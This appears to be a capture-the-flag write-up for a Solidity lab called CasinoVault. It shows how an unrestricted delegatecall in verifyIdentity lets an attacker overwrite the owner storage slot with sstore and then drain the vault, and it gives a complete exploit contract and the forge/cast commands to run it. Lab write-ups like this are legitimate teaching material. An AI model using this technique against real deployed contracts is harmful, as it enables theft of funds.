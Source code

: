 The vault of this casino can only be opened by the owner. What we are trying to do here is take everything from the owner, but how? &nbsp;    
&nbsp;   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./CasinoVault.sol";

contract Setup{
    CasinoVault public CS;

    constructor() payable{
        CS = new CasinoVault{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(CS).balance == 0;
    }

}
```
&nbsp;  
It seems the heist was successful when we managed to empty the vault. A lot of work to be done here, it seems, huh? Let's look at what we're dealing with *CasinoVault Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract CasinoVault {
    address public gameLogic;
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function verifyIdentity(address _identity, bytes memory data) public {
        (bool success, ) = _identity.delegatecall(data);
        require(success, "Verifying failed");
    }

    function withdraw() public {
        require(msg.sender == owner, "Not the owner");
        (bool transferred, ) = payable(owner).call{value: address(this).balance}("");
        require(transferred, "Withdrawal Failed!");
    }

    receive() external payable {}
    
}
```
&nbsp;  
We can see here that we can verifyIdentify by providing an *address* and a *bytes memory data*, they use delegatecall there, delegate calls are usually used like a "borrowed function". You execute the function in order to modify the state of the caller. In this case, if we parse and address and execute the data there, it will execute the data and modify the state of the *Casino Vault* itself. Unlike Silent-Dealer where there is a function to change owner here the option doesn't present. So how can we become the owner and drain the vault? &nbsp;  
&nbsp;  
In EVM Assembly, there is an operation called *sstore(location, value)*. We can use this to overwrite the storage memory, let's see where the *owner* resides, &nbsp;  
&nbsp;  

```solidity
    address public gameLogic; // SLOT 0
    address public owner; // SLOT 1
```
&nbsp;  
Based on that information, we can see that the owner is stored at SLOT 1, and the length since it's an address must be 20 bytes long. Now that we have the 2 options, we can either put the owner to become ourselves (EOA) or we can write the Exploit Contract Address; this can be done by either providing *origin()* (EOA) or *caller()* (msg.sender, in this case is the Exploit Contract), as the parameter. So if we want to overwrite the storage, we can use &nbsp;  
&nbsp;  

```solidity
sstore(1, origin()) // for tx.origin / EOA
// or
sstore(1, caller()) // for msg.sender 
```
&nbsp;  
In this exploitation, I choose to overwrite it using my EOA, so we are going to go with this exploit to drain the vault. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./CasinoVault.sol";

contract Exploit {
    Setup public setup;
    CasinoVault public cs;

    constructor(address payable _setup) {
        setup = Setup(_setup);
        cs = CasinoVault(setup.CS());
    }

    function exploit() public {
        cs.verifyIdentity(address(this), abi.encodeWithSignature("takeOver()"));
    }

    function takeOver() public {
        assembly {
            sstore(1, origin()) 
        }
    }

}
```
&nbsp;  
Let's deploy it, and at last we're going to withdraw all the money stored there. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/casino-vault/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// Running the Exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"

// Withdrawing Everything from the Vault
cast send -r $RPC_URL --private-key $PK $VAULT_ADDR "withdraw()"
```
&nbsp;  
By running the command above and deploying the Exploit contract, you should've solved the lab!